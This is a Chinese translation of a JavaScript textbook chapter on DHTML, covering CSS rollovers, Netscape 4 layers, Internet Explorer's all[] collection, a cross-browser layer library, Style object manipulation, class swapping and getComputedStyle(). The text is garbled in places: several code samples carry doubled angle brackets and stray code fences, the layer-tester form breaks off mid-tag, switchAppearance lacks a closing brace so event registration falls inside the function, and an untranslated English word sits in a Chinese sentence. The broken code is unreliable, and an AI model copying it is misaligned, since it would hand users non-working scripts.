<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>CSS Rollover Example</title>
```

```html
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<style type="text/css">

a img {height: 35px; width: 70px; border-width: 0; background: top left
no-repeat;}

a#button1 img {background-image: url(button1off.gif);}

a#button2 img {background-image: url(button2off.gif);}

a#button1:hover img {background-image: url(button1on.gif);}

a#button2:hover img {background-image: url(button2on.gif);}

</style>

</head>

<body>

<div id="navbar">

  <a id="button1" href="http://www.javascriptref.com/"></a>

  <a id="button2" href="http://www.google.com/"></a>

</div>

</body>

</html>
```

借助 CSS，你还可以更进一步，解决困扰鼠标悬停效果的多图像下载问题。例如，我们可以创建一个包含导航菜单按钮激活状态的大型图像，以及另一个包含按钮未激活状态的大型图像，如下所示：


然后，我们会结合使用 CSS 裁剪区域与 **:hover** 规则或 JavaScript，来显示和隐藏图像的各个部分，从而创建悬停效果。通过这种简单的方法，如果按钮分开单独处理会产生八个图像请求，而合并在一起后则减少到两个。虽然 CSS 本身相当强大，可以用于替代一些简单的视觉效果（如悬停效果），但我们将看到，当它结合 JavaScript 创建 DHTML 效果时，会更加强大。

### 传统的浏览器特定 DHTML

我们已经看到 JavaScript 如何用于根据用户操作动态更新页面中的图像。但考虑到现代浏览器中几乎页面的所有部分都是可脚本化的，你就会意识到操作图像只是冰山一角。在浏览器支持的前提下，你不仅可以更新图像，还可以更新标签内的文本和其他内容，特别是 **\<div\>**、嵌入式对象、表单，甚至页面中的文本。你也并非只能更改内容。由于大多数对象都暴露了其 CSS 属性，你还可以更改外观和布局。

三种技术共同提供了这些功能：(X)HTML 提供了内容的结构基础，CSS 贡献了外观和布局，而 JavaScript 则实现了对这两项功能的动态操作。这种技术组合通常被称为 *动态 HTML*，或简称为 *DHTML*，特别是在所创建的效果使页面显著改变其结构时。我们首先从 DHTML 的传统示例——定位区域开始，介绍开发人员如何解决他们遇到的棘手的跨浏览器问题。一旦我们清楚地展示了这种方法在 DHTML 中的问题，我们将介绍面向 DOM 标准的 DHTML，并在适当的地方穿插一些 Internet Explorer 的细节。

### 使用定位区域实现跨浏览器 DHTML

对许多人来说，DHTML 的一个主要 perceived 缺点是，由于传统对象模型的差异如此之大，做任何非平凡的事情都需要谨慎实现并考虑跨浏览器问题。即使 DHTML 实现的接口是统一的，浏览器也因以略有不同的方式解释标准而臭名昭著，因此你需要仔细测试脚本，以确保其在目标用户群体使用的浏览器中表现如预期。在本节中，我们通过探索如何创建在支持标准和不支持标准的浏览器中都能工作的简单定位区域 DHTML 效果，来简要展示跨浏览器的头痛之处。希望这些变通方法和各种晦涩问题的不便能促使读者将时间花在关注本节之后介绍的标准导向 DHTML 上。

#### CSS 定位回顾

鉴于定位对 DHTML 的重要性，我们在此简要回顾相关的 CSS。CSS 定位通常由 **position**、**top**、**bottom**、**right** 和 **left** 属性的组合来控制。表 15-2 列出了这些及其他相关属性。

##### 表 15-2：样式对象的定位相关属性

| CSS 属性 | 描述 |
| --- | --- |
| **position** | 定义元素使用的定位类型：*static*（默认值）、*absolute*、*relative*、*fixed* 或 *inherit*。最常用的是 *absolute*，用于设置元素的确切位置，不受文档流影响。 |
| **top** | 定义对象相对于封闭区域顶部（多数情况下是浏览器窗口内容区域顶部）的位置。 |
| **left** | 定义对象相对于封闭区域左侧（多数情况下是浏览器窗口本身左侧）的位置。 |
| **height** | 定义元素的高度。对于定位项，常用像素（**px**）作为度量单位，但也可以使用百分比（**%**）等其他单位。 |
| **width** | 定义元素的宽度。对于定位项，常用像素（**px**）作为度量单位。 |
| **clip** | 裁剪矩形，如 **clip: rect(*top right bottom left*)**，可用于定义在定位区域中显示的矩形内容子集，其左上角位于 (*left*, *top*)，右下角位于 (*right*, *bottom*)。注意，矩形的像素值是相对于被裁剪区域而非屏幕的。 |
| **visibility** | 设置元素是否可见。可能的值包括 *hidden*、*visible* 和 *inherit*。 |
| **z-index** | 定义对象的堆叠顺序。具有较高 **z-index** 数值的区域堆叠在具有较低数值的区域之上。如果没有指定 **z-index**，则定义的顺序决定堆叠，最后定义的对象位于最上层。 |

定位有三种主要类型。具有 **static** 定位的元素放置在文档布局中正常出现的位置（也称为流定位）。具有 **relative** 定位的元素相对于其在文档布局中正常出现的位置，按照 **top**、**bottom**、**left** 和/或 **right** 给出的偏移量进行定位。也就是说，文档先进行布局，然后相对定位的元素从原位置按指示的量进行偏移。最后一种定位类型是 **absolute**，这意味着元素不作为文档的正常部分进行布局，而是相对于其父（封闭）元素在指示的偏移位置进行定位。

*注意：CSS2 还支持固定定位（fixed positioning）的概念，它允许对象无论窗口滚动都固定在某个特定位置。然而，IE6 及更早版本不支持此功能，应避免使用。*

不包含在任何其他元素中（除了 **body** 之外）的绝对定位元素，使用 JavaScript 可以轻松地在页面上动态移动，因为它们的封闭元素就是整个文档。因此，分配给其定位属性的任何坐标就是它们在页面上的位置。我们还可以通过设置 **visibility** 来隐藏定位区域，通过设置 **height** 和 **width** 值来改变其大小，甚至可以使用广泛支持的 **innerHTML** 属性或借助 **第 10 章** 中讨论的 DOM 方法来更改其内容。然而，虽然听起来在实践中很容易，但在浏览器中使用 JavaScript 访问定位对象的方式却有很多种。

#### Netscape 4 定位区域：Layer（层）

Netscape 4 对 CSS1 的支持并不出色。但它支持 **\<layer\>** 标签，这提供了样式表中定位区域的等效功能。例如，

```html
<layer name="test" pagex="100" pagey="100" width="100" height="50"
bgcolor="#ffff99">
    This is a layer!
</layer>
```

产生的效果等同于

```html
<div id="test" style="position: absolute; top: 100px; left: 100px; width: 100px;
height: 50px; background-color: #ffff99;">
    This is a layer!
</div>
```

根据前面的示例，你可能会猜测必须同时在文档中包含 **\<div\>** 和 **\<layer\>** 标签才能实现跨浏览器的正确布局。幸运的是，在发布前不久，Netscape 4 增加了对定位 **\<div\>** 标签的支持。但请注意，这种支持实际上是通过 **\<div\>** 区域与 **Layer** 对象之间的映射实现的。事实上，要在 Netscape 4 下访问定位的 **\<div\>** 对象，你需要使用 **layers[]** 集合。为了说明这一点，考虑访问由以下代码定义的区域的写法：

```html
<div id="region1" style="position: absolute; top: 100px; left: 100px; width:
100px; height: 100px; background-color: #ffff99;">
    I am positioned!
</div>
```

我们需要使用 **document.layers['region1']**。然而，一旦访问后，不幸的是我们无法修改区域的 **style** 属性。但我们可以在 Netscape 4 下修改诸如位置、大小或可见性等重要值。例如，要更改可见性，我们会使用 **document.layers['region1'].visibility**，并将该属性设置为 *hide* 或 *show*。定位区域的各种可修改方面实际上直接映射到 **Layer** 对象的属性。该对象最常用的属性如表 15-3 所示。


| 属性 | 描述 |
| --- | --- |
| **bgColor** | 图层的背景颜色。 |
| **Clip** | 引用图层的裁剪区域对象。该对象具有 **top**、**right**、**bottom** 和 **left** 属性，对应于常规 CSS 裁剪矩形，以及 **width** 和 **height**，其用法类似于 CSS 中常规的 **width** 和 **height** 属性。 |
| **document** | 对当前图层 **Document** 对象的引用。 |
| **Left** | 图层的 x 坐标位置。 |
| **name** | 图层的名称。 |
| **pageX** | 图层相对于页面的 x 坐标。 |
| **pageY** | 图层相对于页面的 y 坐标。 |
| **Src** | 当内容未直接在 `<layer>` 标签本身中设置时，用于引用图层内容的 URL。 |
| **Top** | 图层的 y 坐标位置。 |
| **visibility** | 引用图层的当前可见性。`<layer>` 的 *show* 和 *hide* 值等同于 CSS 中的 *visible* 和 *hidden*。Netscape 4 的后续版本对这两个值进行了映射，因此两者均可使用。 |
| **window** | 引用包含该图层的 **Window** 对象。 |
| **X** | 图层的 x 坐标值。 |
| **Y** | 图层的 y 坐标值。 |
| **zIndex** | 保存图层的堆叠顺序。 |

当然，**`<layer>`** 是一个极其私有的标签，在 Netscape 4 之外不受支持。事实上，在该浏览器的 6.x（及更高版本）发行版中，Netscape 已经移除了对该标签的支持。我们将在接下来的几节中了解 Internet Explorer 和兼容 DOM 的浏览器如何访问定位区域。

#### Internet Explorer 4+ 定位区域

如第 9 章所述，Internet Explorer 通过 **all[]** 集合公开页面中的所有对象。因此，要访问由以下代码定义的定位区域：

```
<div id="region1" style="position: absolute; top: 100px; left: 100px; width: 100px; height: 100px; background-color: #ffff99;">

    I am positioned!

</div>
```

在 Internet Explorer 4 及更高版本中，你可以使用 **document.all['region1']** 或 **document.all.region1** 或简写 **region1**。一旦访问到特定对象，我们就可以使用 Style 对象来操作其呈现方式。例如，要将区域的背景颜色设置为 CSS 属性 background-color 所指定的橙色，我们可以使用 `document.all['region1'].style.backgroundColor = 'orange'` 或简写 `region1.style.backgroundColor='orange'`。要设置可见性，我们可以使用 `region1.style.visibility` 并将其值设置为 *visible* 或 *hidden*。

样式属性到 JavaScript 属性的映射在第 10 章中已介绍，但请再次回忆，通常的做法是将带连字符的 CSS 属性中连字符分隔的各词首字母大写，因此 CSS 属性 **text-indent** 在 IE 和兼容 DOM 的 JavaScript 中变为 **textIndent**。下一节将对这里介绍的方案进行轻微修改，因为标准 DOM 支持不同的语法来访问定位区域。幸运的是，从 Internet Explorer 5 开始，我们可以真正互换使用这两种语法。

#### DOM 定位区域

在兼容 DOM 的浏览器中，使用 **document.getElementById()** 方法访问定位区域与使用 Internet Explorer 的 **all[]** 集合配合 `<div>` 标签几乎同样简单。主要方法是使用 **document.getElementById()** 方法。对于我们示例中指定的名为 "region1" 的 `<div>` 区域，我们将使用 **document.getElementById('region1')** 来检索该区域，然后可以通过 **Style** 对象以与 Internet Explorer 类似的方式设置其可见性或其他样式相关属性。例如，要将对象的可见性更改为隐藏，我们使用 **document.getElementById('region1').style.visibility='hidden'**。**当然，**这就引出了一个问题：我们如何在所有浏览器中以相同的方式获取和设置与图层定位相关的样式属性？下一节将提供一种可能的解决方案。

### 构建跨浏览器 DHTML 库

正如我们刚才所看到的，以及本书中许多其他示例所示，流行的 Web 浏览器之间在技术支持方面存在显著差异，尤其是那些未及时更新标准支持的浏览器。对于一些开发者来说，针对单一浏览器（Internet Explorer）或标准（DOM）进行开发似乎是处理这些差异的最佳方式。但有时必须正面解决跨浏览器兼容性问题，编写能够在任何能够产生预期结果的浏览器中运行的标记和脚本。本节通过创建一个示例跨浏览器图层库来探讨这种方法。虽然这绝不是实现此类库的唯一方式，但它确实说明了此类任务中常用的技术。

从前几节中，我们可以看到，对于图层（内容区域）的定位和可见性，我们需要支持三种不同的技术：

- Netscape 4 私有 **`<layer>`** 标签
- Internet Explorer 4+ 配合定位 **`<div>`** 标签的 **all[]** 集合
- 兼容 DOM 的浏览器配合定位 **`<div>`** 标签

有了这些明确的需求，我们可以相当容易地创建一组 JavaScript 例程，用于在主流浏览器中改变可见性以及移动、修改、调整大小和设置定位区域的内容。

此类库首先需要做的是识别当前用户的浏览器。最简单的方法是查看 **Document** 对象。如果我们看到 **layers[]** 集合，就知道浏览器支持 Netscape 4 图层。我们可以查看 **all[]** 集合来判断浏览器是否支持 Internet Explorer 的 **all[]** 集合语法。最后，我们可以查找所需的 DOM 方法 **getElementById()**，以确定是否在使用支持 DOM 的浏览器。以下语句展示了如何设置一些变量来指示我们所使用的浏览器类型：

```
var layerobject = ((document.layers) ? (true) : (false));
```

```
var dom = ((document.getElementById) ? (true) : (false));
```

```
var allobjct = ((document.all) ? (true) : (false));
```

一旦我们确定了所使用的支持图层的浏览器类型，就可以定义一组通用函数来操作图层。我们定义以下图层函数来处理常见任务：

```
function hide(layerName) { }
```

```
function show(layerName) { }
```

```
function setX(layerName, x) { }
```

```
function setY(layerName, y) { }
```

```
function setZ(layerName, zIndex) { }
```

```
function setHeight(layerName, height) { }
```

```
function setWidth(layerName, width) { }
```

```
function setClip(layerName, top, right, bottom, left) { }
```

```
function setContents() { }
```

这些只是我们稍后将填充的桩函数，但首先我们需要在所有函数中包含一个特殊的例程，用于按名称检索定位元素，因为每种方式的实现略有不同。

```
function getElement(layerName, parentLayer)
{
    if(layerobject)
    {
        parentLayer = (parentLayer) ? parentLayer : self;
        layerCollection = parentLayer.document.layers;
        if (layerCollection[layerName])
            return layerCollection[layerName];

        /* look through nested layers */
        for (i=0; i < layerCollection.length;)
            return(getElement(layerName, layerCollection[i++]));
    }

    if (allobject)
        return document.all[layerName];
    if (dom)
        return document.getElementById(layerName);
}
```

注意 Netscape 中嵌套 `<layer>` 或 `<div>` 标签的可能性所带来的麻烦。我们必须递归地遍历嵌套图层，直到找到我们要查找的对象，或者遍历完所有可查找的位置。

一旦访问到定位元素，我们就可以尝试更改其样式。例如，要隐藏和显示定位区域，我们可以编写：

```
function hide(layerName)
{
    var theLayer = getElement(layerName);

    if (layerobject)
        theLayer.visibility = 'hide';
    else
        theLayer.style.visibility = 'hidden';
}
```


```javascript
function show(layerName)
{

  var theLayer = getElement(layerName);

  if (layerobject)

    theLayer.visibility = 'show';

  else

    theLayer.style.visibility = 'visible';

}
```

其他例程与此类似，都需要对浏览器对象进行简单的条件检测，以便在所有支持的浏览器中工作。

当然，还有比目前所涵盖的更多的问题。例如，在较旧的Opera浏览器中，我们需要使用 **pixelHeight** 和 **pixelWidth** 属性来设置定位区域的 **height** 和 **width**。为了检测Opera浏览器，我们使用 **Navigator** 对象来查看用户代理字符串，正如第17章所讨论的那样。这里我们通过尝试在用户代理字符串中查找子字符串“opera”来设置一个布尔值，以指示我们是否正在使用Opera。

```javascript
opera = (navigator.userAgent.toLowerCase().indexOf('opera') != -1);
```

一旦我们检测到浏览器的存在，我们就可以编写跨浏览器例程来设置高度和宽度，如下所示：

```javascript
/* 设置名为layerName的图层的高度 */

function setHeight(layerName, height)
{

  var theLayer = getElement(layerName);


  if (layerobject)

    theLayer.clip.height = height;

  else if (opera)

    theLayer.style.pixelHeight = height;

  else

    theLayer.style.height = height+"px";
}
```

```javascript
/* 设置名为layerName的图层的宽度 */

function setWidth(layerName, width)
{
    var theLayer = getElement(layerName);

    if (layerobject)
        theLayer.clip.width = width;

    else if (opera)
        theLayer.style.pixelWidth = width;

    else
        theLayer.style.width = width+"px";
}
```

定位方面在Opera中也存在同样的情况，它需要使用 **pixelLeft** 和 **pixelTop** 属性，而不是简单的 **left** 和 **top** 才能工作。完整的设置位置的函数库类似于前面的示例。

在向图层写入内容时，我们也必须考虑一些特殊因素。在Netscape 4下，我们使用 **Document** 对象方法，如 **write()** 来重写图层的内容。在Internet Explorer和大多数其他浏览器中，我们可以使用 **innerHTML** 属性。然而，在严格符合DOM的浏览器中，生活有点艰难，因为我们必须从区域中删除所有子项，然后创建要插入的适当项目。由于这种复杂性以及大多数支持DOM的浏览器也支持 **innerHTML** 这一事实，我们在此功能上做了妥协。这留下了Opera 7之前的版本，不过我们编写代码的方式使得不会发生任何事情，而不是显示错误消息。

```javascript
function setContents(layerName, content)
{
    var theLayer = getElement(layerName);

    if (layerobject)
    {
        theLayer.document.write(content);
        theLayer.document.close();
        return;
    }

    if (theLayer.innerHTML)
        theLayer.innerHTML = content;
}
```

我们跳过了对几个例程的讨论，但它们的风格和用法遵循已经介绍的内容。完整的图层库如下：

```javascript
/* layerlib.js: 带有基本兼容性检查的简单图层库 */


/* 检测对象 */
var layerobject = ((document.layers) ? (true) : (false));

var dom = ((document.getElementById) ? (true) : (false));

var allobject = ((document.all) ? (true) : (false));


/* 检测浏览器 */

opera=navigator.userAgent.toLowerCase().indexOf('opera')!=-1;


/* 返回传递的layerName值的对象 */

function getElement(layerName,parentLayer)

{


if(layerobject)

{

parentLayer = (parentLayer)? parentLayer : self;

layerCollection = parentLayer.document.layers;

if (layerCollection[layerName])

return layerCollection[layerName];

/* 查看嵌套图层 */

for(i=0; i < layerCollection.length;)

return(getElement(layerName, layerCollection[i++]));

}


if (allobject)

return document.all[layerName];

if (dom)
  return document.getElementById(layerName);
}
```

```javascript
/* 隐藏id为layerName的图层 */
function hide(layerName)
{
  var theLayer = getElement(layerName);
  if (layerobject)
    theLayer.visibility = 'hide';
  else
    theLayer.style.visibility = 'hidden';
}
```

```javascript
/* 显示id为layerName的图层 */
function show(layerName)
{
  var theLayer = getElement(layerName);
  if (layerobject)
    theLayer.visibility = 'show';
  else
    theLayer.style.visibility = 'visible';
}
```

```javascript
/* 设置名为layerName的图层的x坐标 */
function setX(layerName, x)
{
var theLayer = getElement(layerName);
if (layerobject)
  theLayer.left=x;
else if (opera)
  theLayer.style.pixelLeft=x;
else
  theLayer.style.left=x+"px";
}
```

```javascript
/* 设置名为layerName的图层的y坐标 */
function setY(layerName, y)
{
  var theLayer = getElement(layerName);

  if (layerobject)
    theLayer.top=y;
  else if (opera)
    theLayer.style.pixelTop=y;
  else
    theLayer.style.top=y+"px";
}
```

```javascript
/* 设置名为layerName的图层的z-index */
function setZ(layerName, zIndex)
{
  var theLayer = getElement(layerName);

  if (layerobject)
    theLayer.zIndex = zIndex;
else
    theLayer.style.zIndex = zIndex;
}
```

```javascript
/* 设置名为layerName的图层的高度 */
function setHeight(layerName, height)
{
    var theLayer = getElement(layerName);

    if (layerobject)
        theLayer.clip.height = height;
    else if (opera)
        theLayer.style.pixelHeight = height;
    else
        theLayer.style.height = height+"px";
}
```

```javascript
/* 设置名为layerName的图层的宽度 */
function setWidth(layerName, width)
{
    var theLayer = getElement(layerName);

    if (layerobject)
        theLayer.clip.width = width;
    else if (opera)
        theLayer.style.pixelWidth = width;
    else
        theLayer.style.width = width+"px";
}
```

```javascript
/* 设置名为layerName的图层上的裁剪矩形
   由top, right, bottom和left定义 */
function setClip(layerName, top, right, bottom, left)
{
    var theLayer = getElement(layerName);

    if (layerobject)
    {
        theLayer.clip.top = top;
        theLayer.clip.right = right;
        theLayer.clip.bottom = bottom;
        theLayer.clip.left = left;
    }
    else
        theLayer.style.clip = "rect("+top+"px "+right+"px "+" "+bottom+"px "+left+"px )";
}
```

```javascript
/* 将layerName的内容设置为传递的内容*/
function setContents(layerName, content)
{
    var theLayer = getElement(layerName);

    if (layerobject)
    {
        theLayer.document.write(content);

        theLayer.document.close();

        return;
    }

    if (theLayer.innerHTML)

        theLayer.innerHTML = content;

}
```

我们可以将这个库保存为“layerlib.js”，然后使用下面这样的示例文档进行测试。如果你想避免大量输入，请务必访问www.javascriptref.com的支持站点。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>跨浏览器图层测试器</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript" src="layerlib.js"></script>
</head>
<body>
<div id="region1" style="position: absolute; top: 10px; left: 300px;
                         width: 100px; height: 100px;
                         background-color: #ffff99; z-index: 10;">我是定位的！</div>

<div id="region2" style="position: absolute; top: 10px; left: 275px;
                         width: 50px; height: 150px;
                         background-color:#33ff99; z-index: 5;">z-index为5的固定图层，用于测试z-index</div>

<br /><br /><br /><br /><br /><br />
<hr />

<form name="testform" id="testform" action="#" method="get">

可见性：
<input type="button" value="显示" onclick="show('region1');" />
<input type="button" value="隐藏" onclick="hide('region1');" />

<br /><br />

x: <input type="text" value="300" name="x" id="x" size="4" />
<input type="button" value="设置"
  onclick="setX('region1',document.testform.x.value);" />

y: <input type="text" value="10" name="y" id="y" size="4" />
<input type="button" value="设置"
  onclick="setY('region1',document.testform.y.value);" />

z: <input type="text" value="10" name="z" id="z" size="4" />
<input type="button" value="设置"
  onclick="setZ('region1',document.testform.z.value);" />

<br /><br />

高度: <input type="text" value="100" name="height" id="height" size="4" />
<input type="button" value="设置"
  onclick="setHeight('region1',document.testform.height.value);" />

宽度: <input type="text" value="100" name="width" id="width" size="4" />
<input type="button" value="设置"
```
```


### 基于标准的 DHTML

要实现真正的 DHTML，我们似乎需要采用那些实际良好支持 CSS、DOM 和 (X)HTML 标准的浏览器。尽管并非所有浏览器都完全支持 CSS1、CSS2、DOM1 和 DOM2，但通常情况下，现有的支持程度已经足以让你考虑使用标准来实现大多数 DHTML 应用，而不是依赖前一节中介绍的方法。

DHTML 中最基本的任务之一是定义页面中你希望操纵其外观或内容的区域。在基于标准的浏览器中，这很容易：几乎任何标签，如 **\<p\>**、**\<h1\>** 或 **\<pre\>**，都可以使用。然而，这些标签在大多数浏览器中带有预定义的含义和渲染方式，因此 (X)HTML 提供了两个没有默认渲染或含义的通用标签：**\<div\>**（通用块级元素）和 **\<span\>**（通用内联元素）。请注意，在大多数示例中，我们将坚持使用 **\<div\>** 标签，因为它与 CSS 和 JavaScript 的支持在不同浏览器版本中往往最为一致。

#### 样式对象基础

通过 **\<div\>** 或其他标签定义的内容区域的外观，最好通过对象的 **style** 属性（对应于元素的 **style** 属性的内容）进行操作。此属性中找到的 **Style** 对象公开了该对象的 CSS 属性，从而能够控制内容的视觉特征，如字体、颜色和大小。有关 **Style** 属性的完整列表，请参见**第 10 章**或**附录 B**。

考虑以下简单的基于文本的悬停效果：

```
<a href="http://www.google.com" onmouseover="this.style.fontWeight='bold';"
onmouseout="this.style.fontWeight='normal';">Mouse over me!</a>
```

当用户将鼠标悬停在链接上时，字体切换为粗体（相当于 **font-weight: bold** 的 CSS 绑定），而鼠标移出时字体又切回。这与关于悬停效果部分的概念类似，但我们不是更改图像源，而是更改对象的 CSS 属性。当然，如果我们遵循约定，将 CSS 属性名去掉连字符并将合并词的首字母大写，就能得到其 JavaScript/DOM 属性，那么我们就可以设置任意的 CSS 属性。因此，给定 CSS 属性 **font-style**，在 JavaScript 中变为 **fontStyle**；**background-image** 变为 **backgroundImage**；**font-size** 变为 **fontSize**，依此类推。

为了说明广泛的外观变化，以下示例将在点击某个区域时更改其外观。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Standards-based DHTML</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script language="JavaScript" type="text/javascript">

<!--

var prevObj;  // 以便我们可以恢复先前点击元素的样式

function handleClick(e)

{

if (!e)

    var e = window.event;

// e 在所有浏览器中都提供对事件的访问


// 如果之前点击过，将该元素切换回正常

if (prevObj)

    {

    switchAppearance(prevObj);

    }

if (e.target)  // DOM

    {

    prevObj = e.target;

    switchAppearance(e.target);

    }

else if (e.srcElement)  // IE

    {

    prevObj = e.srcElement;

    switchAppearance(e.srcElement);

    }

}


function switchAppearance(obj)

{

obj.style.backgroundColor = ((obj.style.backgroundColor == "lightblue") ?

                            ("") : ("lightblue"));

// IE 无法处理 inherit 值，因此传递一个空值

// 避免干扰表单字段周围的边框

if (obj.tagName.toLowerCase() != "input")

    {

    if (obj.style.borderStyle.indexOf("solid") != -1)

        {

        obj.style.borderStyle = "none";

        obj.style.borderWidth = "0px";

        }

    else

        {

        obj.style.borderStyle = "solid";

        obj.style.borderWidth = "1px";

        }

    }

// 注册 DOM 风格的事件

if (document.addEventListener)

    document.addEventListener("click", handleClick, true);

// 注册 IE 风格的事件

if (document.attachEvent)

    document.attachEvent("onclick",handleClick);

//-->

</script>

</head>

<body>

<h2>Click anywhere on the page to see the content regions!</h2>

<br /><br />

<p style="float: left;">Some content that floats to the left.</p>

<p style="float: right;clear: none;">Some content that floats to the right.</p>

<br clear="all"/><hr />

<form action="#" method="get">

Here's a form!<br />

<input type="text" /><br />

<input type="text" /><br />

<input type="text" /><br />

</form>

<p>And another paragraph!</p>

</body>

</html>
```

> **注意** 为了使该示例在 Internet Explorer 6 中工作，我们不得不采用第 11 章中介绍的跨平台事件捕获思想，因为该浏览器不支持 DOM Level 2 风格的事件监听器。

此示例更改了屏幕上由 (X)HTML 定义的内容区域的背景色和边框。该示例不仅有用之处在于展示了通过事件进行样式更改，还说明了任何文档中都固有地存在标记和 CSS 结构。图 15-4 显示了点击表单后在 Mozilla 浏览器中的示例渲染效果。


 # 点击页面任意位置查看内容区域！

向左浮动的内容。

向右浮动的内容。

这是一个表单！

另一个段落！

```
Done
```

#### 图 15-4：在支持标准的浏览器中使用 DHTML 需要掌握 CSS 知识。

上面的示例说明了两个非常重要的点。第一个观察是，要使用 DHTML 操纵页面的外观，需要对 CSS 有深入的了解。否则，你只能操纵元素的 (X)HTML 属性，而不是它们的 **Style** 对象。第二个观察是，**Style** 对象的属性包含 CSS 值，而这些值可能不是你预期的。为了说明这一点，考虑以下 JavaScript：

```
<<p id="mypara">>Oy.<<\/p>>
```

```
<<script type="text/javascript">>
```

```
document.getElementById("mypara").style.borderWidth = 3;
```

```
alert(document.getElementById("mypara").style.borderWidth);
```

```
<</script>>
```

在 Internet Explorer 和 Mozilla 下的结果可能会让你惊讶：


首先，注意到我们用数值设置了边框宽度，但没有指定任何单位。对于 **border-width**，我们应该直接指定单位并传入字符串值，而不是使用隐式类型转换，如下所示：

```
document.getElementById("myPara").style.borderWidth = "3px";
```

更有趣的是，你会在基于 Mozilla 的浏览器中看到 **border-width** 实际上是四条边框的简写，因此它显示四个值。正如你所看到的，当你设置 **Style** 对象的属性时，该值会被解析，就好像它出现在样式表中一样。因此，浏览器通常会填充任何你可能遗漏或隐含的 CSS 规则（如 "px" 这样的单位），或者在某些情况下可能直接忽略该值。确实需要深入了解 CSS，但如果你的 CSS 有些生疏，可以遵循以下这些操作 **Style** 属性的最佳实践来避免麻烦：

- 如果可能，不要使用 **Style** 属性来存储状态。例如，如果你想记录已将背景设置为红色，请使用单独的变量（可能是 **Style** 的实例属性），而不是从 **style.color** 推断状态。这样做可以避免处理浏览器填充的意外值所带来的麻烦。
- 如果必须检查 **Style** 属性，请使用子字符串和/或正则表达式，而不是使用 `==` 等运算符进行直接比较。这样做可以减少类型转换错误以及与浏览器填充的隐含值相关的问题。
- 将 **Style** 属性设置为字符串，并始终尽可能具体。例如，不要使用 **style.borderWidth = 2**，而是使用 **style.borderWidth = "2px"**。这将降低错误风险并提高与不太宽容的 CSS-JavaScript 实现的兼容性。

#### 使用类实现高效的样式

动态设置大量 **Style** 属性可能既繁琐又容易出错。更好的技术是将你想要的 CSS 属性绑定到一个类，然后动态交换对象的类。以下示例通过将用户鼠标悬停的任意 `<div>` 的 **class** 属性值镜像到目标内容区域来说明该技术：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Changing Classes</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<style type="text/css">
```

```
#mirror {border-style: solid; border-width: 1px; width: 100%;}
#theStyles {border-style: dashed; border-width: 1px; width: 80%; padding: 5%;}
h1 {text-align: center;}

/* the classes to swap */
.big {font-size: 48pt;}
.small {font-size: 8pt;}
.important {text-decoration: underline; font-weight: bold;}
.annoying {background-color: yellow; color: red;}
</style>

<script type="text/javascript">
<!--
function changeClass(whichClass)
{
	document.getElementById("mirror").className = whichClass;
}
//-->
</script>
</head>
<body>
<h1>Result</h1>
<div id="mirror">Mouse over any of the text below and watch this text mirror
	its CSS properties.</div>
<br /><br />
<h1>Styles to Test</h1>
<div id="theStyles">
	<div onmouseover="changeClass(this.className)" class="big">
		This text is big!
```

```
<</div>>

<<hr />

<<div onmouseover="changeClass(this.className)" class="small">>

This text is small!

<</div>>

<<hr />

<<div onmouseover="changeClass(this.className)" class="important">>

This text is important!

<</div>>

<<hr />

<<div onmouseover="changeClass(this.className)" class="annoying">>

This text is annoying!

<</div>>

<</div>>

<</body>>

<</html>>
```

请注意，在上面的示例中，我们使用 **className** 来访问 (X)HTML **class** 属性。我们必须这样做，因为 "class" 是 JavaScript 中的保留字，因此我们需要尽可能避免使用该标识符。

#### 计算样式

文档对象的 **style** 属性的一个细微之处是，它只表示应用于该元素的*内联*样式。内联样式是使用 **style** (X)HTML 属性指定的样式。因此，无法保证通过这种方式访问的值代表了浏览器最终显示的样式。例如：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>What's my style?<</title>>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<style type="text/css">

p { text-decoration: underline !important }
```

```
<<style>>

<<head>>

<<body>>

<<p id="para">>This text always appears underlined, even when we try to override it
by setting its inline style<</p>>

<<script type="text/javascript">>

document.getElementById("para").style.textDecoration = "none";

alert(document.getElementById("para").style.textDecoration);

<</script>>

<</body>>

<</html>>
```

正如你在图 15-5 中看到的，即使我们将内联样式属性设置为 "none"，文本仍然保持下划线。原因是在文档范围的样式表中有一个 CSS 规则使用 !important 覆盖了内联设置。然而，弹出样式值清楚地显示 textDecoration 的值是 none，这有些令人困惑。


图 15-5：计算样式和实际样式可能不同

获取应用于对象的实际样式可能很棘手。在符合 DOM2 的浏览器中，可以使用文档默认视图的 getComputedStyle() 方法。文档的默认视图是它在 Web 浏览器中的默认表示，即所有样式规则应用后的外观。getComputedStyle() 方法接受两个参数：一个是要获取样式的节点，另一个是要查询的伪元素（例如，":hover"）（或正常外观的空字符串）。你可以用以下方式获取前面示例中段落的样式：

```
var p = document.getElementById("para");
```

```
var finalStyle = document.defaultView.getComputedStyle(p, "");
```

要检查单个属性，请使用 getPropertyValue() 方法，它接受一个字符串，指示感兴趣的属性：
```
alert("The paragraph's actual text decoration is: " + 
    finalStyle.getPropertyValue("text-decoration"));
```

